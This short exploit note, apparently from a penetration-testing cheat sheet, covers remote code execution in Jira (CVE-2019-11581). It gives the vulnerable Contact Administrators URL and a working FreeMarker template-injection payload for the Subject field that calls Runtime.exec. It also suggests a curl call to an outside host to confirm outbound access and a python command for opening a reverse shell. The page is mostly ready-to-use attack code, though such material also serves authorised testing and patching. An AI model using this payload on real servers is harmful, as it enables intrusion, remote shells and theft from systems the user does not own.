 RCE in Jira(CVE-2019–11581)
===========================

The "contact Admin" functinality is accessible on this URL:
```
https://jiraserver/secure/ContactAdministrators!default.jspa
```

The `Subject` field is vulnerable to [Template-Injection](https://portswigger.net/research/server-side-template-injection) (freemarker):
```java
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('cmd').waitFor()
```

For example, the command can be:

 - `curl http://<ip>:<port>/` to test if the serveur can make an HTTP request outside
 - `python -c ''` to execute commands such as a [reverse-shell](../reverse-shell.md)
